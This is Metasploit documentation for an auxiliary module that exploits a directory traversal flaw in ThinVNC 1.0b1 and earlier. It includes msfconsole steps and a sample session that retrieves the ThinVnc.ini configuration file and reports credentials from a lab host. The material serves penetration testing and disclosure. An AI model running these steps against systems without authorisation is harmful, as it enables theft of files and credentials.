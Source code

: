 ## Description

  This module exploits a directory traversal vulnerability in ThinVNC
  versions 1.0b1 and prior which allows unauthenticated users to retrieve
  arbitrary files, including the ThinVNC configuration file.

## Vulnerable Application

  This module has been tested successfully on ThinVNC versions 1.0b1
  and "ThinVNC_Latest" (2018-12-07).

  ThinVNC is available on [Sourceforge](https://sourceforge.net/projects/thinvnc/files/).

## Verification Steps

  1. `./msfconsole`
  2. `use auxiliary/scanner/http/thinvnc_traversal`
  3. `set rhosts <rhost>`
  4. `run`

## Scenarios

  ### ThinVNC version 1.0b1 on Windows XP SP3

  ```
  msf > use auxiliary/scanner/http/thinvnc_traversal 
  msf auxiliary(scanner/http/thinvnc_traversal) > set rhosts 172.16.123.123
  rhosts => 172.16.123.123
  msf auxiliary(scanner/http/thinvnc_traversal) > run

  [+] File ThinVnc.ini saved in: /root/.msf4/loot/20191017033828_default_172.16.123.123_thinvnc.traversa_713640.txt
  [+] Found credentials: admin:admin
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed

  msf auxiliary(scanner/http/thinvnc_traversal) > 
  ```

